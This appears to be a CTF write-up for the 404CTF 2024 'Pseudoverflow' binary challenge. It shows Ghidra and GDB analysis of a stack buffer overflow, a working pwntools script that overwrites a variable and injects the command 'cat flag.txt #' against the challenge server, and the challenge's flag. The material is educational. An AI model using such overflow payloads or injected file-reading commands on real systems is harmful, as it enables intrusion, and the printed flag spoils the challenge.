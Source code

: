 ```yaml
---
title: CTFs | 404CTF_2024 | Exploitation de Binaire | Pseudoverflow
author: BatBato
date: 2024-04-25
categories:
  - CTFs
  - 404_CTF_2024
  - Exploitation de Binaire
tags:
  - Binary
permalink: /CTFs/404_CTF_2024/Exploitation_de_Binaire/Pseudoverflow
---
```


# Pseudoverflow

![[pseudo_enonce.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_enonce.png)
Here we are given the [course](/Exploitation_de_Binaires/course) binray. When opened in `Ghidra`, we can see the following:

![[pseaudo_main.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseaudo_main.png)

> At first, we had two variables that had the hex values of `perds` and `\0`. But once we redefined the type of the first variable as an array of five characters it prints us like above.
{: .prompt-warning}

We understand here that we need to modify the content of the `var_to_modif` variable. 

If we look at the code in `GDB`, we can see where the variable is saved.

![[pseudo_gdb_main.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_gdb_main.png)

We set a breakpoint at the leave instruction and run the program. We use a payload `"A"*106+"B"*6` :

![[pseudo_gdb_var.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_gdb_var.png)

As we can see, we have overwritten the content of the variable. Now we need to put the correct value. For that, I used a python code:

```python
from pwn import *
gagne = 0x656e676167
cmd = b"cat flag.txt #"
my_len = 106 - len(cmd)
payload = cmd + b"A"*my_len + p64(gagne)

#p = process("./course")
SERV = "challenges.404ctf.fr"
PORT = 31958
p = remote(SERV, PORT)

print(p.recvuntil(b"pseudo :").decode())
print(payload.decode())
p.sendline(payload)
p.recvline().decode()
print("[+] FLAG : "+p.recvuntil(b"}").decode())
```

As you can see, I wrote my payload (`cat flag.txt #`) at the beginning and then used some `A`s as padding and finally, the overwrite is done by the hex value of the word `gagne`.  

> The `#` is very important. It allows to comment the rest of the payload. This allows us not to have an error when sending our shell-code.
{: .prompt-warning}

And we get the flag:

![[pseudo_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_flag.png)

The flag is `404CTF{0v3rfl0w}`.